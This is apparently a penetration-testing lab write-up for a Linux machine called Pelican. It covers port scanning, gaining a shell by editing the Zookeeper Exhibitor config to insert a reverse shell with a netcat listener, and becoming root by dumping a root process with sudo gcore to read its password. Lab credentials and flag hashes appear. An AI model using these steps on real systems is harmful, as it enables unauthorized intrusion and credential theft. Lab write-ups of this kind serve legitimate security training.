 # Linux - Pelican

---

### Host Info Gathering

- We are given a intermediate Linux machine called Pelican. With the given IP address of `192.168.181.98` , we can use `nmap` to perform a scan over TCP and UDP ports.

```bash
> nmap -sCV -A -Pn -O -p- 192.168.181.98 -oN tcpnmap.md
> sudo nmap -sU -Pn 192.168.181.98 --top-ports=100 --reason -oN udpnmap.md
```

```bash
# TCP Scan Result
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a8:e1:60:68:be:f5:8e:70:70:54:b4:27:ee:9a:7e:7f (RSA)
|   256 bb:99:9a:45:3f:35:0b:b3:49:e6:cf:11:49:87:8d:94 (ECDSA)
|_  256 f2:eb:fc:45:d7:e9:80:77:66:a3:93:53:de:00:57:9c (ED25519)
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
631/tcp   open  ipp         CUPS 2.2
| http-methods: 
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/2.2 IPP/2.1
|_http-title: Forbidden - CUPS v2.2.10
2181/tcp  open  zookeeper   Zookeeper 3.4.6-1569965 (Built on 02/20/2014)
2222/tcp  open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a8:e1:60:68:be:f5:8e:70:70:54:b4:27:ee:9a:7e:7f (RSA)
|   256 bb:99:9a:45:3f:35:0b:b3:49:e6:cf:11:49:87:8d:94 (ECDSA)
|_  256 f2:eb:fc:45:d7:e9:80:77:66:a3:93:53:de:00:57:9c (ED25519)
8080/tcp  open  http        Jetty 1.0
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(1.0)
8081/tcp  open  http        nginx 1.14.2
|_http-title: Did not follow redirect to http://192.168.181.98:8080/exhibitor/v1/ui/index.html
|_http-server-header: nginx/1.14.2
44267/tcp open  java-rmi    Java RMI
```

### Important Info

```bash
root : ClogKingpinInning731
```

### Initial Foothold

- We notice `port 139 & 445` are open, so that we can try enumerate over SMB. I tried `smbclient` anonymous connection and `enum4linux` and getting no information. Tried `netexec` to list shared files and getting no information.

- Proceed to `port 8080` , we visit it and see a HTTP ERROR 404.
    
    ![image.png](Linux%20-%20Pelican%201b0553bebf0f8099b4c1da4d0f074b2b/image.png)
    

- Then use `dirsearch` and `feroxbuster` to discover directories under url but no much useful information were found.
    
    ```bash
    > dirsearch -u http://192.168.181.98:8080
    
    > feroxbuster --url http://192.168.181.98:8080 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -t 50 -o ferox.md
    ```
    

- From initial `nmap` scan, we can find out there’s zookeeper running on `port 2181` . I have no idea what is zookeeper, and I googled "Zookeeper 3.4.6".
    
    There’s a related ExploitDB RCE exploit shows up as “Exhibitor Web UI 1.7.1” - https://www.exploit-db.com/exploits/48654
    
    By reviewing the content, it mentioned a vulnerable url address of `http://<Target_IP>:8080/exhibitor/v1/config/set` . Put our target ip into the url and visit it, we can get an CMS web page. 
    
    ![image.png](Linux%20-%20Pelican%201b0553bebf0f8099b4c1da4d0f074b2b/image%201.png)
    

- On the `zookeeper` page, we can click “Config” → enable “Editing” on. Then replace a reverse shell in “java.env script” to prepare for exploit.
    
    ![image.png](Linux%20-%20Pelican%201b0553bebf0f8099b4c1da4d0f074b2b/image%202.png)
    
    On kali, start listening port 9090.  Then return back to `zookeeper` page to execute the exploit by hitting “Commit”. Then we can get the shell as `charles` and obtain locat.txt as low-privilege user.
    
    ```bash
    > rlwrap nc -lvnp 9090
    
    - local.txt : 3362c35ed7faad2f954678c7670ee80b
    ```
    
    ![image.png](Linux%20-%20Pelican%201b0553bebf0f8099b4c1da4d0f074b2b/image%203.png)
    
    ![image.png](Linux%20-%20Pelican%201b0553bebf0f8099b4c1da4d0f074b2b/image%204.png)
    

### Privilege Escalation

- The next step is privilege escalation. By running `sudo -l` , we found that we can sudo run `gcore` without password.
    
    Check crontab, we can know root is running  `/usr/bin/password-store` .
    
    ```bash
    > sudo -l
    
    > cat /etc/crontab
    ```
    
    ![image.png](Linux%20-%20Pelican%201b0553bebf0f8099b4c1da4d0f074b2b/image%205.png)
    
    ![image.png](Linux%20-%20Pelican%201b0553bebf0f8099b4c1da4d0f074b2b/image%206.png)
    

- Checking `gcore`  on GTFOBins, we find an SUID way.
    
    ![image.png](Linux%20-%20Pelican%201b0553bebf0f8099b4c1da4d0f074b2b/image%207.png)
    
    In order to do it, we need to find the process id we can use. Think about the password-store we found before. We can see what’s its process id. In my case, it is 486.
    
    ```bash
    > ps aux | grep "password"
    ```
    
    ![image.png](Linux%20-%20Pelican%201b0553bebf0f8099b4c1da4d0f074b2b/image%208.png)
    

- Running as GTFOBins introduced, we can use `gcore` to create a `gcore.486` file at current path. By viewing the file content, we are able to find the password for root user. Then we can simply switch to `root`  to gain high-privilege.
    
    ```bash
    > sudo /usr/bin/gcore 486
    > cat gcore.486
    
    root : ClogKingpinInning731
    
    > su root
    	: ClogKingpinInning731
    	
    > whoami
    	: root
    
    - proof.txt : cbcb17baeeba99db4a01561111608a8c
    ```
    
    ![image.png](Linux%20-%20Pelican%201b0553bebf0f8099b4c1da4d0f074b2b/image%209.png)
    
    ![image.png](Linux%20-%20Pelican%201b0553bebf0f8099b4c1da4d0f074b2b/image%2010.png)
    

### Reference

- https://www.exploit-db.com/exploits/48654
- https://gtfobins.github.io/gtfobins/gcore/